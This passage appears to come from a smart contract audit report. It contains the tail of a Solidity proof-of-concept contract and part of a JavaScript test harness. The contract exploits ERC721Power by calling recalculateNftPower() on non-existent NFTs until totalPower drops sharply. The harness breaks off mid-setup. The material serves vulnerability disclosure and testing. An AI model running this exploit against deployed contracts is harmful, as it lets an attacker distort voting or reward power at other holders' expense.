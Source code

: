```solidity
        // verify totalPower() correct at starting block
        require(
            nftPower.totalPower() == initialTotalPower,
            "ERC721PowerAttack: incorrect initial totalPower"
        );

        // output totalPower before attack
        console.log(nftPower.totalPower());

        // keep calling recalculateNftPower() for non-existent nfts
        // this lowers ERC721Power::totalPower() every time
        // can't get it to 0 due to underflow but can get close enough
        for (uint256 i; i < attackIterations; ) {
            nftPower.recalculateNftPower(++lastTokenId);
            unchecked {
                ++i;
            }
        }

        // output totalPower after attack
        console.log(nftPower.totalPower());

        // original totalPower : 10000000000000000000000000000
        // current  totalPower : 900000000000000000000000000
        require(
            nftPower.totalPower() == 900000000000000000000000000,
            "ERC721PowerAttack: after attack finished totalPower should equal 900000000000000000000000000"
        );
    }
}
```

Add test harness to `ERC721Power.test.js`:
```javascript
    describe("audit attacker can manipulate ERC721Power totalPower", () => {
      it("audit attack 2 dramatically lowers ERC721Power totalPower", async () => {
        // deploy the ERC721Power nft contract with:
        // max power of each nft = 100
        // power reduction 10%
        // required collateral = 100
        let maxPowerPerNft = toPercent("100");
        let requiredCollateral = wei("100");
        let powerCalcStartTime = (await getCurrentBlockTime()) + 1000;

        // create power nft contract
        await deployNft(powerCalcStartTime, maxPowerPerNft, toPercent("10"), requiredCollateral);

        // ERC721Power::totalPower should be zero as no nfts yet created
        assert.equal((await nft.totalPower()).toFixed(), toPercent("0").times(1).toFixed());

        // create the attack contract
        const ERC721PowerAttack = artifacts.require("ERC721PowerAttack");
        let attackContract = await ERC721PowerAttack.new();

        // create 10 power nfts for SECOND
        await nft.safeMint(SECOND, 1);
        await nft.safeMint(SECOND, 2);
        await nft.safeMint(SECOND, 3);
        await nft.safeMint(SECOND, 4);
        await nft.safeMint(SECOND, 5);
        await nft.safeMint(SECOND, 6);
        await nft.safeMint(SECOND, 7);
        await nft.safeMint(SECOND, 8);
```